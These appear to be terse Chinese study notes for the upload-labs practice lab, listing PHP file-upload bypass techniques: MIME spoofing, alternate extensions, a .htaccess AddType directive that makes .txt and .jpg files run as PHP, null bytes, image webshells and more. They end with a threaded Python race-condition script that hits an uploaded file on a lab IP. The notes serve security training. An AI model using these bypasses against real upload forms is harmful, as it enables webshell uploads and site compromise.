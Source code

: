# 1.前端js绕过




# 2.绕过MIME-Type验证
content-type




# 3.等价扩展名绕过验证
httpd.conf-》写入add php3....




# 4.    .htaccess文件绕过
.htaccess文件
`AddType application/x-httpd-php .txt .jpg`





# 5.    .user.ini绕过
大于5.3最好大于7.0




# 6. 大小写绕过




# 7.通过空格绕过




# 8.通过.绕过（windows）





# 9.通过特殊字符绕过验证
windows NT系统



# 10.通过拼接路径绕过






# 11.通过双写绕过验证





# 12.空字符绕过(get)
php版本5.2
php.ini -》 magic_quotes_gpc = Off



# 13.空字符绕过(post) 




# 14.文件头绕过
010editor
文件包含漏洞



# 15.图片马绕过
php版本>5.4





16题跳过 开exif模块剩下的和15一样
# 16. 图片的二次渲染绕过




# 17.条件竞争

```python
import requests
import threading
import os

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.url = 'http://192.168.60.143/upload-labs/upload/1.php'

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print(r.text)
            os._exit(0)

    def run(self):
        while True:
            for i in range(5):
                self._get()
            for i in range(10):
                self._get()

if __name__ == '__main__':
    threads = 50
    for i in range(threads):
        t = RaceCondition()
        t.start()

    for i in range(threads):
        t.join()
```





# 18.代码审计绕过（21题）